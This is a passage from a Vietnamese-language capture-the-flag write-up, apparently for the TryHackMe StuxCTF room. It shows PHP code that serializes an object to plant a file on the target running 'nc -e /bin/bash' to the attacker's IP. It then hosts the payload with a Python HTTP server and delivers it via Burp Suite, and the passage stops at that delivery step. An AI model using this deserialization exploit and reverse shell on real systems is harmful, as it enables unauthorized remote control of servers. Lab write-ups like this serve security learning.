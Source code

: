 File php được tạo sẽ trong như thế này

```php
<?php
class file
{
        public $file = 'test.php';
        public $data = '<?php shell_exec("nc -e /bin/bash 10.18.3.74 9001"); ?>';
}
echo (serialize(new file));

?>
```

Sau đó sử dụng php để chuyển file này thành text 

```python
┌──(neo㉿kali)-[~]
└─$ php serialize.php > test.txt

┌──(neo㉿kali)-[~]
└─$ cat test.txt                
O:4:"file":2:{s:4:"file";s:11:"test.php";s:4:"data";s:55:"<?php shell_exec("nc -e /bin/bash 10.18.3.74 9001"); ?>";} 
```

Tiếp theo tạo local http server bằng python

```python
┌──(neo㉿kali)-[~]
└─$ python -m http.server                                                                               
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Sau đó thực hiện request lấy file *test.txt* về server. Tôi dùng *BurpSuite*

![get file](/assets/img/2022-03-02-THM-StuxCTF/5.webp)
